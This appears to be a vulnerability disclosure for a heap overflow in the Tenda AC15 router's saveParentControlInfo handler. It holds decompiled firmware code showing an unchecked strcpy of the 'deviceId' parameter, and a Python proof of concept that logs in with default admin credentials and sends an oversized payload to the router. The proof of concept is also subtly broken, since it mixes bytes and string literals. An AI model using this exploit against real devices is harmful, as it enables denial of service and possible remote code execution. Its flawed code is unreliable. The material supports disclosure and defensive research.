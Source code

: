## Tenda AC15 multiple heap overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

In function saveParentControlInfo, the content obtained by the program from the parameter "deviceId" is passed to local_28, 
and then the local_28 is directly copied into the local_50 heap through the strcpy function.
There is no size check, so there is a heap overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void saveParentControlInfo(undefined4 param_1)

{
  int iVar1;
  undefined uVar2;
  bool bVar3;
  undefined4 local_3d8;
  undefined4 local_3d4;
  undefined4 local_3d0;
  undefined4 local_3cc;
  undefined4 local_3c8;
  undefined4 local_3c4;
  undefined4 local_3c0;
  undefined4 local_3bc;
  undefined4 local_3b8;
  undefined4 local_3b4;
  undefined4 local_3b0;
  undefined4 local_3ac;
  undefined4 local_3a8;
  undefined4 local_3a4;
  undefined4 local_3a0;
  undefined4 local_39c;
  int local_398;
  char acStack916 [128];
  int aiStack788 [30];
  undefined4 local_29c;
  undefined2 local_298;
  char local_296 [2];
  undefined auStack660 [512];
  undefined auStack148 [64];
  undefined *local_54;
  void *local_50;
  char *local_4c;
  char *local_48;
  undefined4 local_44;
  char *local_40;
  char *local_3c;
  char *local_38;
  char *local_34;
  char *local_30;
  char *local_2c;
  char *local_28;
  undefined4 local_24;
  undefined4 local_20;
  int local_1c;
  int local_18;
  int local_14;
  
  memset(auStack148,0,0x40);
  memset(auStack660,0,0x200);
  local_29c = 0;
  local_298 = 0;
  local_296[0] = '\0';
  local_18 = 0;
  local_1c = 0;
  local_14 = 0;
  memset(aiStack788,0,0x78);
  memset(acStack916,0,0x80);
  local_20 = 0;
  local_398 = 0;
  local_24 = 0;
  local_28 = (char *)FUN_0002ba8c(param_1,"deviceId",&DAT_000edd28);  //here
  local_2c = (char *)FUN_0002ba8c(param_1,"enable",&DAT_000edd28);
  local_30 = (char *)FUN_0002ba8c(param_1,"time",&DAT_000edd28);
  local_34 = (char *)FUN_0002ba8c(param_1,"url_enable",&DAT_000edd28);
  local_38 = (char *)FUN_0002ba8c(param_1,"urls",&DAT_000edd28);
  local_3c = (char *)FUN_0002ba8c(param_1,"day",&DAT_000edd28);
  local_40 = (char *)FUN_0002ba8c(param_1,"block",&DAT_000edd28);
  local_44 = FUN_0002ba8c(param_1,"connectType",&DAT_000edd28);
  local_48 = (char *)FUN_0002ba8c(param_1,"limit_type",&DAT_000eddc8);
  local_4c = (char *)FUN_0002ba8c(param_1,"deviceName",&DAT_000edd28);
  ...
  local_50 = malloc(0x254); //alloc memory
  memset(local_50,0,0x254); 
  strcpy((char *)((int)local_50 + 2),local_28); //here is overflow
  local_54 = (undefined *)malloc(0x254);
  memset(local_54,0,0x254);
  SetValue("parent.global.en",&DAT_000eddc8);
  SetValue("filter.url.en",&DAT_000eddc8);
  SetValue("filter.mac.en",&DAT_000eddc8);
  strcpy(local_54 + 2,local_28);  //here is overflow
  strcpy(local_54 + 0x22,local_30);
  ...
}
```

### * POC
```python
import requests


cmd  = b'deviceId=' + b'A' * 800 + '&enable=&time=&url_enable=&urls=&day=&block=&connectType=&limit_type='
cmd += b'&deviceName='


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/saveParentControlInfo/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```
